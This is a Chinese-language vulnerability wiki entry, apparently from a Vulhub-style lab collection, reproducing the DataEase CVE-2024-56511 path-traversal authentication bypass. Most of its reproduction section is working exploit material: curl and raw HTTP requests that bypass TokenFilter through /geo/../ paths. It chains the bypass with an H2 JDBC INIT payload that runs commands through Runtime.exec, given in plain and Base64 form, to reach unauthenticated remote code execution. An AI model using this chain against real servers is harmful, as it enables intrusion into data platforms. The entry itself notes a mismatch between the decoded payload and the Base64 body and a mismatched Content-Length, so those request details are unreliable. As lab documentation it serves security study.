






# DataEase 56511白名单路径认证绕过

## 条目说明

- 对象与具体问题：DataEase；56511白名单路径认证绕过
- 版本、配置及部署条件：<=2.10.3/2.10.4修复声明；定制context-path=/dataease
- 认证与权限前提：路径规范化差异
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 文本有500与200业务数据对照，较纯状态码证据更完整；仍需确认特定部署非普适
- 声称过滤器后Tomcat才规范化的顺序需源码/跟踪证据，所有接口均可访问也须下游权限检查
- 解码JSON缺$$且含非法JSON转义\；，与Base64正文不一致；Content-Length191失配
- 保持主56511和32966链式区分，改动实验配置不能直接代表默认环境

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

DataEase 是一款广泛使用的开源数据可视化分析平台，常用于搭建 BI 仪表盘。

DataEase 2.10.3 及以下版本（v2.10.4 修复）的 `io.dataease.auth.filter.TokenFilter` 存在认证绕过漏洞。过滤器通过 `request.getRequestURI()` 取出原始未经规范化的路径，再交给 `WhitelistUtils.match()` 判断是否属于免鉴权接口。而 `WhitelistUtils.match()` 只会去掉配置的 `server.servlet.context-path` 前缀，然后按固定前缀表（`/geo/`、`/customGeo/`、`/map/`、`/oauth2/`、`/websocket` 等）做匹配，完全没有处理 `..` 等路径段。攻击者只要在请求 URI 前面拼接一段白名单前缀、再穿越回 context-path 下的真实接口，就能让过滤器以为请求命中了免鉴权前缀，而 Tomcat 随后会把 URI 规范化并正常路由到受保护的 Controller。该利用依赖目标部署时配置了非默认的 `server.servlet.context-path`（例如 `/dataease`，这是 DataEase 与其他内部系统一起挂在基于路径的反向代理后时非常典型的部署方式）——规范化后的路径必须包含该前缀，Spring 才会把请求派发到 `/de2api` 下的控制器。在受影响版本上，所有 `/de2api` 接口（用户管理、数据源、仪表盘、导出等）都会因此退化为未授权可访问。

参考链接：

- https://github.com/dataease/dataease/security/advisories/GHSA-9f69-p73j-m73x
- https://nvd.nist.gov/vuln/detail/CVE-2024-56511
- https://securityonline.info/cve-2024-56511-critical-authentication-bypass-vulnerability-in-dataease/

### 漏洞影响

```
DataEase 2.10.3 及以下版本
```

### 环境搭建

Vulhub 执行如下命令启动一个存在漏洞且已经配置了 `server.servlet.context-path=/dataease` 的 DataEase 2.10.3（模拟多个内部系统共用一个反向代理、按路径分发的生产部署方式）：

```
docker compose up -d
```

服务启动后，DataEase 登录页位于 `http://your-ip:8100/dataease`。




### 漏洞复现

首先验证目标接口处于鉴权保护之下。直接请求 `/dataease/de2api/datasource/types` 会进入 `TokenFilter`，由于没有 `X-DE-TOKEN` 头，过滤器抛出 `DEException("token is empty for uri {/dataease/de2api/datasource/types}")`，被 Spring Boot 包装成 HTTP 500 返回（具体响应体由客户端的 `Accept` 头决定——Burp 或浏览器看到的是下图中的 Whitelabel Error Page，用 `curl` 直接请求则会收到等价的 JSON 响应）：

```
curl -sS -D - --path-as-is http://your-ip:8100/dataease/de2api/datasource/types
-----
HTTP/1.1 500 
X-DE-EXECUTE-VERSION: 2.10.3
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Type: application/json
Transfer-Encoding: chunked
Date: Fri, 08 May 2026 01:44:42 GMT
Connection: close

{"timestamp":"2026-05-08T01:44:42.333+00:00","status":500,"error":"Internal Server Error","path":"/dataease/de2api/datasource/types"}
```




接下来向同一个逻辑接口发送带有白名单前缀 `/geo/` 和穿越段的请求。必须加上 `--path-as-is` 参数，不对 URL 路径做规范化，原样发给服务器，否则 curl 会在客户端提前合并 `..` 导致 payload 失效（在 Burp Repeater 中则会原样保留请求行里的 URI，无需额外配置）：

```
curl -sS -D - --path-as-is 'http://your-ip:8100/geo/../dataease/de2api/datasource/types'
-----
HTTP/1.1 200 
Cache-Control: no-cache
Cache: no-cache
Pragma: no-cache
Expires: 0
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Type: application/json
Transfer-Encoding: chunked
Date: Fri, 08 May 2026 01:46:15 GMT

{"code":0,"msg":null,"data":["folder","API","Excel","mysql","impala","mariadb","StarRocks","es","doris","TiDB","oracle","pg","redshift","db2","ck","h2","sqlServer","mongo"]}
```




响应从 `500 Internal Server Error` 变成了 `200 OK`，而且返回了后端真实支持的数据源类型列表，这就是 `TokenFilter` 被绕过的直接证据。在过滤器内部，`WhitelistUtils.match()` 看到的 URI 仍然是 `/geo/../dataease/de2api/datasource/types`，它只判断路径是否以 `/geo/` 等白名单前缀开头，匹配成功后直接返回 `true`，因此过滤链跳过了所有 Token 校验；而后续的 Tomcat 再把路径规范化为 `/dataease/de2api/datasource/types`，去掉 `/dataease` 上下文前缀，把请求派发到 `DatasourceController#types()`，就好像调用者已经通过认证一样。

这个绕过对所有 `/de2api` 接口（用户管理、数据源、仪表盘、导出等）都有效，因此将其与需要登录的漏洞（例如 [CVE-2025-32966](https://github.com/vulhub/vulhub/blob/d277a8693e588684e951dddb0733809e53881a3c/dataease/CVE-2025-32966)）串联，可以把整体影响提升至未授权远程代码执行。注意，此处需要使用 v2.10.3 及更早的版本对应的 payload：

```
{"urlType":"jdbcUrl","jdbcUrl":"jdbc:h2:mem:pwn;MODE=MSSQLServer;INIT=CREATE ALIAS EXEC AS void exec() throws java.io.IOException { Runtime.getRuntime().exec(new String[]{\"touch\",\"/tmp/awesome_poc\"})\\; }\;CALL EXEC()","username":"","password":"","driver":"org.h2.Driver"}
```

绕过前，HTTP 响应为 `500`：

```http
POST /dataease/de2api/datasource/validate HTTP/1.1
Host: your-ip:8100
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 191

{"name":"p1","type":"h2","configuration":"eyJ1cmxUeXBlIjoiamRiY1VybCIsImpkYmNVcmwiOiJqZGJjOmgyOm1lbTpwd247TU9ERT1NU1NRTFNlcnZlcjtJTklUPUNSRUFURSBBTElBUyBFWEVDIEFTICQkdm9pZCBleGVjKCkgdGhyb3dzIGphdmEuaW8uSU9FeGNlcHRpb24geyBSdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKG5ldyBTdHJpbmdbXXtcInRvdWNoXCIsXCIvdG1wL2F3ZXNvbWVfcG9jXCJ9KVxcOyB9JCRcXDtDQUxMIEVYRUMoKSIsInVzZXJuYW1lIjoiIiwicGFzc3dvcmQiOiIiLCJkcml2ZXIiOiJvcmcuaDIuRHJpdmVyIn0="}
```

> 对照证据保留：两次请求的归档 JSON 正文相同，但原 `Content-Length` 分别为 191 和 424，原文报告的响应也不同。长度是否由发送工具重算未记录，不能把它们当作仅路径不同的严格对照；保留原标头，不据此断言长度造成了响应差异。




认证绕过，HTTP 响应为 `200`：

```http
POST /geo/../dataease/de2api/datasource/validate HTTP/1.1
Host: your-ip:8100
Content-Type: application/json
Content-Length: 424

{"name":"p1","type":"h2","configuration":"eyJ1cmxUeXBlIjoiamRiY1VybCIsImpkYmNVcmwiOiJqZGJjOmgyOm1lbTpwd247TU9ERT1NU1NRTFNlcnZlcjtJTklUPUNSRUFURSBBTElBUyBFWEVDIEFTICQkdm9pZCBleGVjKCkgdGhyb3dzIGphdmEuaW8uSU9FeGNlcHRpb24geyBSdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKG5ldyBTdHJpbmdbXXtcInRvdWNoXCIsXCIvdG1wL2F3ZXNvbWVfcG9jXCJ9KVxcOyB9JCRcXDtDQUxMIEVYRUMoKSIsInVzZXJuYW1lIjoiIiwicGFzc3dvcmQiOiIiLCJkcml2ZXIiOiJvcmcuaDIuRHJpdmVyIn0="}
```

> 对照证据保留：两次请求的归档 JSON 正文相同，但原 `Content-Length` 分别为 191 和 424，原文报告的响应也不同。长度是否由发送工具重算未记录，不能把它们当作仅路径不同的严格对照；保留原标头，不据此断言长度造成了响应差异。




进入 DataEase 容器即可看到命令已成功执行：

```
docker compose exec web ls -la /tmp/
```




### 漏洞修复

- 更新至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
